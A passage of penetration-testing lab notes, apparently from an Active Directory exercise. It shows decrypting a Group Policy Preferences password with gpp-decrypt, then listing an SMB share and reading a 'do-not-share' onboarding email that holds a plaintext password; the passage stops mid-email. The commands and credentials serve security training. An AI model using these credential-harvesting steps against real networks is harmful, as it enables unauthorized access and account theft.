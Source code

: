 Discover encrypted password. 

GPP-Encrypted passwords have the [decryption key](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be?redirectedfrom=MSDN#endNote2) on MSDN

#### Decrypting GPP-stored password
##### Tool: gpp-decrypt
###### Command: gpp-decrypt "_encryptedpasswordstring_"

```hlt:2
kali@kali:~$ gpp-decrypt "+bsY0V3d4/KgX3VJdO/vyepPfAN1zMFTiQDApgR92JE"
P@$$w0rd
```


#### Enumerating docshare Share (non-default)
Contents of docshare
```
PS C:\Tools> ls \\FILES04\docshare

    Directory: \\FILES04\docshare

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         9/21/2022   2:02 AM                docs
```

Contents of do-not-share folder
```
PS C:\Tools> ls \\FILES04\docshare\docs\do-not-share

    Directory: \\FILES04\docshare\docs\do-not-share

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         9/21/2022   2:02 AM           1142 start-email.txt
```
Contents of start-email.txt
```hlt:HenchmanPutridBonbon11
PS C:\Tools> cat \\FILES04\docshare\docs\do-not-share\start-email.txt
Hi Jeff,

We are excited to have you on the team here in Corp. As Pete mentioned, we have been without a system administrator
since Dennis left, and we are very happy to have you on board.

Pete mentioned that you had some issues logging in to your Corp account, so I'm sending this email to you on your personal address.

The username I'm sure you already know, but here you have the brand new auto generated password as well: HenchmanPutridBonbon11

As you may be aware, we are taking security more seriously now after the previous breach, so please change the password at first login.

Best Regards
Stephanie

...............

Hey Stephanie,

Thank you for the warm welcome. I heard about the previous breach and that Dennis left the company.

Fortunately he gave me a great deal of documentation to go through, although in paper format. I'm in the
```